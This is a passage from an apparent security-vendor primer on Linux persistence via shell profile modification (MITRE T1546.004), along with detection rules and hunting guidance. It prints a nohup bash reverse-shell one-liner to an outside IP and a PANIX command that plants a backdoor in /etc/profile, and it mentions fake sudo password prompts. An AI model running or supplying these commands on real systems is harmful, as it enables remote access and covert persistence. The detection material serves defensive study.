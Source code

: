 ```
(nohup bash -i > /dev/tcp/192.168.1.1/1337 0<&1 2>&1 &)
```

This command uses “nohup” (no hang up) to run an interactive bash reverse shell as a background process, ensuring it continues running even after the initiating user logs out. The entire command is then executed in the background using `&` and wrapped in parentheses to create a subshell, preventing any interference with the parent shell’s operations.

Be vigilant for other types of backdoors, such as credential stealers that create fake “`[sudo] password for…`” prompts when running sudo or the execution of malicious binaries. MITRE specifies more information and real-world examples related to this technique in [T1546.004](https://attack.mitre.org/techniques/T1546/004/).

### Persistence through T1546.004 - shell profile modification

You can add a bash payload to shell configuration files either manually or using PANIX. When PANIX runs with user privileges, it establishes persistence by modifying `~/.bash_profile`. With root privileges, it modifies the `/etc/profile` file to achieve system-wide persistence.

```
sudo ./panix.sh --shell-profile --default --ip 192.168.1.1 --port 2004
```

To trigger it, either log in as root via the shell with `su --login root` or login via SSH. The shell profile will be parsed and executed in order, resulting in the following chain of execution:

![Events generated as a result of shell profile modification persistence establishment](/assets/images/primer-on-persistence-mechanisms/image10.png "Events generated as a result of shell profile modification persistence establishment")

PANIX plants the backdoor in `/etc/profile`, next `su --login root` is executed to trigger the payload, the `UID`/`GID` changes to root, and a network connection is initiated through the injected backdoor. A similar process occurs when logging in via SSH. We can detect several steps of the attack chain. 

Detection and endpoint rules that cover shell profile modification persistence_

| Category | Coverage                                                     |
|----------|--------------------------------------------------------------|
| File     | [Shell Configuration Creation or Modification](https://github.com/elastic/detection-rules/blob/main/rules/linux/persistence_shell_configuration_modification.toml)                 |
|          | [Potential Persistence via File Modification](https://github.com/elastic/detection-rules/blob/main/rules/integrations/fim/persistence_suspicious_file_modifications.toml)                  |
| Process  | [Binary Execution from Unusual Location through Shell Profile](https://github.com/elastic/protections-artifacts/blob/main/behavior/rules/linux/persistence_binary_execution_from_unusual_location_through_shell_profile.toml) |
| Network  | [Network Connection through Shell Profile](https://github.com/elastic/protections-artifacts/blob/main/behavior/rules/linux/persistence_network_connection_through_shell_profile.toml)                     |

### Hunting for T1546.004 - shell configuration modification

We can hunt for shell profile file creations/modification, as well as SSHD child processes, by leveraging ES|QL and OSQuery. The [Shell Modification Persistence](https://github.com/elastic/detection-rules/blob/main/hunting/linux/queries/persistence_via_shell_modification_persistence.toml) hunting rule contains several of these hunting queries.

## T1547.013 - boot or logon autostart execution: XDG autostart entries
